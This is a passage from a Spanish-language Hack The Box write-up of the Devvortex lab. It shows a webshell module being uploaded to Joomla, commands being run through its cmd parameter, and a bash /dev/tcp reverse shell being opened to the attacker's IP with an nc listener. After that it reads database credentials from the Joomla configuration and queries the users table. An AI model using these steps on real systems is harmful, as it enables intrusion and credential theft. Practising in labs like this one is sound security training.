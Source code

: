 Seleccionamos el archivo `.zip`, cargamos y tamos, ya debió quedar instalado el plugin, validamos realizando la misma consulta que hicimos para instalar la extensión y ordenando por fechas de creación:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/devvortex/htb577_page80dev_administrator_installExtensions_pluginInstalled.png" style="width: 100%;"/>

Para llegar al módulo, hacemos una petición contra el recurso:

```html
http://dev.devvortex.htb/modules/mod_webshell/mod_webshell.php
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/devvortex/htb577_page80dev_modules_modWebshell.png" style="width: 100%;"/>

Y para ejecutar comandos, enviaríamos los parámetros `action=exec` y `cmd=<comando a ejecutar>`:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/devvortex/htb577_page80dev_modules_modWebshell_RCE_id.png" style="width: 100%;"/>

Y estamos EJECUTANDO códigoooooooooooooooo!!

Para entablar una reverse shell podemos usar esta forma:

1. Ponemos en escucha un puerto en nuestra máquina: `nc -lvp 4440`
2. Le damos forma a nuestro comando, le indicamos que nos envíe una **bash** a nuestra IP y PUERTO que tenemos escuchando: `bash -c 'bash -i >& /dev/tcp/10.10.14.150/4440 0>&1'`.
3. En internet buscamos **URL Encode**, abrimos la web, colocamos esa cadena y nos quedamos con el output.
4. Obtenemos algo tal que: `bash%20-c%20%27bash%20-i%20%3E%...`.
5. Y listo, ese sería el contenido a pasarle al parámetro `cmd`.

> Lo hacemos así para evitar que los caracteres especiales (` `, `'`, `-`, `>`, etc) corrompan la información enviada y por consiguiente la petición.

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/devvortex/htb577_bash_nc_wwwdataSH.png" style="width: 100%;"/>

Liiiiistones, tamos dentro...

# tequieromucho: www-data -> logan [#](#lateral-mysql-joomla-logan) {#lateral-mysql-joomla-logan}

Revisando inicialmente los archivos del sitio web, encontramos el objeto relacionado con la configuración de la base de datos de **Joomla**:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/devvortex/htb577_bash_wwwdataSH_cat_configurationPHPjoomla.png" style="width: 100%;"/>

Cierto, las credenciales que usamos, originalmente son del gestor de bases de datos, además, en el sistema existe el usuario `logan` yyyy habíamos visto mediante el leak de usuarios, que también existe `logan` en la base de datos de **Joomla**, por lo que veamos si esto tiene que ver...

```bash
mysql -u lewis -p
...
mysql> show databases;
mysql> use joomla;
mysql> select * from sd4fg_users;
```

